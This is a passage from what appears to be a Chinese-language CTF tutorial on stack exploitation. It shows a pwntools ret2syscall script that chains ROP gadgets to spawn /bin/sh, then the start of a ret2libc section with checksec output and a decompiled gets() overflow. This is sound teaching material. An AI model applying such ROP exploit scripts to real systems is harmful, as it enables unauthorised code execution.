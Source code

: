 4、构造脚本

```plain
# -*- coding: utf-8 -*-
from pwn import *

p = process('./ret2syscall')
pop_eax_ret = 0x080bb196
pop_edx_ecx_ebx_ret = 0x0806eb90
bin_sh_addr = 0x080be408
int_0x80 = 0x08049421
payload = flat(['A'*118,pop_eax_ret,0xb,pop_edx_ecx_ebx_ret,0,0,bin_sh_addr,int_0x80])

p.sendline(payload)
p.interactive()
```

## ret2libc

### 原理

动态链接的情况下，程序链接的时候不会将库中的所有函数都链接进来，只有在执行的时候加载相应的程序。所以控制执行 lbic 中的函数，通常是返回至某个函数的 plt 处或者函数的具体位置 (即函数对应的 got 表项的内容)，一般选择 system("/bin/sh")

1、分 3 种情况：

-   程序中能够找到 system 函数和'/bin/sh'字符串
-   程序中只存在一个
-   程序中两者都不存在 (准确来说，这种才是真正的 ret2libc)

### 利用

1、检测程序开启的保护

```plain
qufeng@qufeng-virtual-machine:~/Desktop/pwn1$ checksec ret2libc3
[*] '/home/qufeng/Desktop/pwn1/ret2libc3'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

开启了 NX 保护，不能写入 shell

2、IDA 分析

```plain
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s; // [esp+1Ch] [ebp-64h]

  setvbuf(stdout, 0, 2, 0);
  setvbuf(stdin, 0, 1, 0);
  puts("No surprise anymore, system disappeard QQ.");
  printf("Can you find it !?");
  gets(&s);
  return 0;
}
```
